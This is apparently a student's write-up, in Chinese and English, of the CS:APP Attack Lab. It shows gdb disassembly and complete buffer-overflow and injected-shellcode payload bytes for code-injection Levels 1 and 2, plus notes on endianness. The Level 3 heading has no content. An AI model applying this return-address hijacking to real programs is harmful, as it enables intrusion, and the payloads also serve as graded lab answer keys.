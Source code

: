 





# Attack Lab

## Code Injection

### Level1

Task: to get ctarget to execute touch1 instead of test when getbuf executes its ret statement

test调用getbuf, 我们需要进行buffer overflow修改ret地址, 让返回地址变成touch1的起始地址即可

首先看getbuf的buffer size, 可以看出是40, 所以我们需要一个长度为40的字符串填满stack上的padding

```assembly
(gdb) disassemble getbuf
Dump of assembler code for function getbuf:
0x00000000004017a8 <+0>:	sub    $0x28,%rsp
0x00000000004017ac <+4>:	mov    %rsp,%rdi
0x00000000004017af <+7>:	callq  0x401a40 <Gets>
0x00000000004017b4 <+12>:	mov    $0x1,%eax
0x00000000004017b9 <+17>:	add    $0x28,%rsp
0x00000000004017bd <+21>:	retq
```

可以看到stack上的返回地址是0x0000000000401976, 我们需要把这个地址修改为0x00000000004017c0

所以多写的2个字符是17和c0, 应该先写c0, 后写17

```assembly
(gdb) disassemble test
Dump of assembler code for function test:
0x0000000000401968 <+0>:	sub    $0x8,%rsp
0x000000000040196c <+4>:	mov    $0x0,%eax
0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
0x0000000000401976 <+14>:	mov    %eax,%edx
0x0000000000401978 <+16>:	mov    $0x403188,%esi
0x000000000040197d <+21>:	mov    $0x1,%edi
0x0000000000401982 <+26>:	mov    $0x0,%eax
0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
0x000000000040198c <+36>:	add    $0x8,%rsp
0x0000000000401990 <+40>:	retq
```

```assembly
(gdb) disassemble touch1
Dump of assembler code for function touch1:
0x00000000004017c0 <+0>:	sub    $0x8,%rsp
0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
0x00000000004017d8 <+24>:	mov    $0x1,%edi
0x00000000004017dd <+29>:	callq  0x401c8d <validate>
0x00000000004017e2 <+34>:	mov    $0x0,%edi
0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
```

**Level1 solution**

只要最后4个写入的字节是c0 17 40 00 即可, 前面的40字节随意

```assembly
61 61 61 61 61 61 61 61 
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61
c0 17 40 00
```


### Level2

Task: to get ctarget to execute touch2 instead of test when getbuf executes its ret statement

touch2不同于touch1的点是: touch2需要一个参数, 也就是意味着需要多一步类似于 movq 0xabcd, %rdi 的操作

所以需要把这条指令的hex value放到栈上执行

```assembly
00000000004017ec <touch2>:
4017ec:       48 83 ec 08             sub    $0x8,%rsp
4017f0:       89 fa                   mov    %edi,%edx
4017f2:       c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
4017f9:       00 00 00
4017fc:       3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
401802:       75 20                   jne    401824 <touch2+0x38>
```

根据stack的convention可以知道, 如果我们把需要执行的指令直接写到buffer里在正常情况下是不管用的, 因为最后在弹栈的时候会直接越过整个buffer, 直接执行ret. 那么问题来了, 我们要inject的指令放在哪里?

我们必须通过覆盖return address位置的值, 让getbuf返回时, 跳到一个我们自己定义的函数(指令)位置, 进而才能执行 %rdi的赋值操作

也就是说, 我们要inject一个函数或一段指令, 完成的功能是:

1，把0x59b997fa放到%rdi

```assembly
movq  $0x59b997fa,%rdi
```

2，然后返回到touch2函数

- 这个实现方法是: push touch2函数的起始地址到stack上, 然后执行ret

```assembly
pushq $0x4017ec
ret
```


编写一个move.s文件, 直接写入需要的assembly instructions

```assembly
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

执行gcc -c (compile and assemble, but do not link), 得到object file  move.o

```bash
> gcc -c move.s
```

然后objdump出指令的hex value

```bash
> objdump -d move.o
move.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
7:	68 ec 17 40 00       	pushq  $0x4017ec
c:	c3                   	retq
```

我们需要一个改写原本ret的地址为 movq $0x59b997fa,%rdi的地址

那么我们需要把这个mov即后续指令放在stack上的某个位置即可

假设放在$rsp + 8的位置, gdb进入getbuf可以查看%rsp+8的值0x5561dc80, 我们就把injected code的起始指令mov放在这里

得到solution

```assembly
00 00 00 00 00 00 00 00  # %rsp
48 c7 c7 fa 97 b9 59 68  # %rsp+8 开始写入injected code
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
80 dc 61 55 00 00 00 00  # buffer overflow的位置写入ret要跳转目标地址, 即%rsp+8的地址
```

同理, 我们也可以把injected code起始放到%rsp位置, 对应solution

```assembly
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 # ret 跳转%rsp+8
```

injected code起始在%rsp+16位置, 对应solution

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
88 dc 61 55 00 00 00 00  # ret 跳转%rsp+16
```

injected code起始在%rsp+24位置, 对应solution

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
90 dc 61 55 00 00 00 00  # ret 跳转%rsp+24
```

%rsp+24是可以利用的极限地址了, 如果注入的指令从%rsp+32开始, buffer的空间不够放下所有要注入的指令



## 测试endian

```assembly
00000000000005fa <m>:
 5fa:	55                   	push   %rbp
 5fb:	48 89 e5             	mov    %rsp,%rbp
 5fe:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
 602:	89 75 f4             	mov    %esi,-0xc(%rbp)
 605:	48 83 45 f8 01       	addq   $0x1,-0x8(%rbp)
 60a:	8b 45 f4             	mov    -0xc(%rbp),%eax
 60d:	83 c0 0a             	add    $0xa,%eax
 610:	5d                   	pop    %rbp
 611:	c3                   	retq

(gdb) disasse m
Dump of assembler code for function m:
0x00005555554005fa <+0>:	push   %rbp
0x00005555554005fb <+1>:	mov    %rsp,%rbp
0x00005555554005fe <+4>:	mov    %rdi,-0x8(%rbp)
0x0000555555400602 <+8>:	mov    %esi,-0xc(%rbp)
0x0000555555400605 <+11>:	addq   $0x1,-0x8(%rbp)
0x000055555540060a <+16>:	mov    -0xc(%rbp),%eax
0x000055555540060d <+19>:	add    $0xa,%eax
0x0000555555400610 <+22>:	pop    %rbp
0x0000555555400611 <+23>:	retq
```

x/x此类操作默认是读一个word(4 bytes), 等同于x/xw, 如果要读8bytes, 指令是x/xg

x/x 0x00005555554005fa =>  0xe5894855

x/x 0x00005555554005fb => 0x48e58948

可以看到的是, 我读了一个高地址的数据, 然后55没了, 也就意味着, 在内存中 55 48 89 e5这个顺序是从低地址到高地址的

即, 在objdump我们看到的指令值, 就是从低地址到高地址依次排列, 也就是按着代码显示的55 48 89 e5这样从左到右的顺序; 

但是在gbd输出时, 可以很明显看到它是反向输出的, 即高地址在前

所以objdump出来的顺序, 就是little endian, 可以直接作为injected code





%rdi里存的是我自己定义的char *  "abcdefg"

x/s $rdi 	=> "abcdefg"

x/s $rdi+1 => "bcdefg"

可以看出, string在内存中排放的方法, 首地址在低地址, 依次排列到高地址结束; 也就是, 想象在栈的那张图上, string是从底下向顶部排列的


### Level3



